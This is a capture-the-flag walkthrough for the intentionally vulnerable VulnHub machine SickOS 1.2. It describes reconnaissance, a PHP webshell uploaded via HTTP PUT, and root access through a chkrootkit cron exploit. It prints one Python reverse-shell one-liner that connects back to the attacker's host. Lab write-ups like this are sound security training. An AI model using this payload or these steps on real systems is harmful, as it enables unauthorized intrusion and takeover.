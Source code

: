 ![](IMAGES/0.png)

# GETTING STARTED

To download **sickos 1.2**, click on the link given below:

https://www.vulnhub.com/entry/sickos-12,144/

> [!NOTE] 
> This writeup documents the steps that successfully led to pwnage of the machine. It does not include the dead-end steps encountered during the process (which were numerous). This is just my take on pwning the machine and you are welcome to choose a different path.

# RECONNAISSANCE

I began the hack by scanning my network to find the target IP using **nmap**.

```bash

┌──(root㉿kali)-[~/ctf/sickos2]
└─# nmap -sn 192.168.1.0/24                                      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-26 00:26 EDT
Nmap scan report for RTK_GW (192.168.1.1)
Host is up (0.0015s latency).
MAC Address: F8:C4:F3:D0:63:13 (Shanghai Infinity Wireless Technologies)
Nmap scan report for ubuntu (192.168.1.4)
Host is up (0.00037s latency).
MAC Address: 00:0C:29:05:85:91 (VMware)
Nmap scan report for kali (192.168.1.13)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 7.53 seconds
```

I then scanned the ports of the target (*192.168.1.4*).

![](IMAGES/1.png)

# FOOTHOLD

Since the target had port 80 open, I accessed it on the web and also viewed its source for anything interesting.

![](IMAGES/2.png)

![](IMAGES/3.png)

However, I found nothing of use. So I fuzzed for interesting directories and files using **dirb**.

![](IMAGES/4.png)

I then visited the */test/* directory.

![](IMAGES/5.png)

I then performed a **nikto** scan on this path to see if I could find anything juicy.

![](IMAGES/6.png)

Here, I found out that the server allowed the **PUT** method, which meant I could upload a PHP file for a reverse shell. I validated this using **curl**.

![](IMAGES/7.png)

Now that this was confirmed, I uploaded a **PHP** code to get remote code execution.

I referred to this article:- https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html

![](IMAGES/8.png)

Hence, I achieved command execution. I then used this to obtain a reverse shell. The payload I used is:

```python

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.13",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![](IMAGES/9.png)

![](IMAGES/10.png)

Hence I got initial access on the system.

![](IMAGES/11.png)

# PRIVILEGE ESCALATION

I downloaded the [**linux smart enumeration**](https://github.com/diego-treitos/linux-smart-enumeration) script to assist with privilege escalation.

![](IMAGES/12.png)

![](IMAGES/13.png)

Here, I discovered that we could modify the cron job.

![](IMAGES/14.png)

![](IMAGES/15.png)

I then used **searchsploit** to examine available exploits for all programs and found one for **chkrootkit**.

![](IMAGES/16.png)

I checked the version of this script to determine if the available exploits would be applicable.

![](IMAGES/17.png)

I then downloaded the text file from **Searchsploit** and reviewed it to understand how I could escalate my privileges.

![](IMAGES/18.png)

![](IMAGES/19.png)

Hence, I followed these steps to gain root access.

![](IMAGES/20.png)

![](IMAGES/21.png)

I then waited for a few minutes and switched the user to root.

![](IMAGES/22.png)

I then captured the final flag.

![](IMAGES/23.png)

# CLOSURE

Here's a brief summary of how I captured the root flag:
- I uploaded a PHP file for remote command injection in the _/test/_ folder.
- I used this remote code execution (RCE) to obtain a reverse shell.
- I then inspected the `cron.daily` folder and exploited the **chkrootkit** vulnerability to gain root access.
- Finally, I captured the flag from the _/root_ directory.

![](IMAGES/x.png)

That's it from my side. Until next time:)

---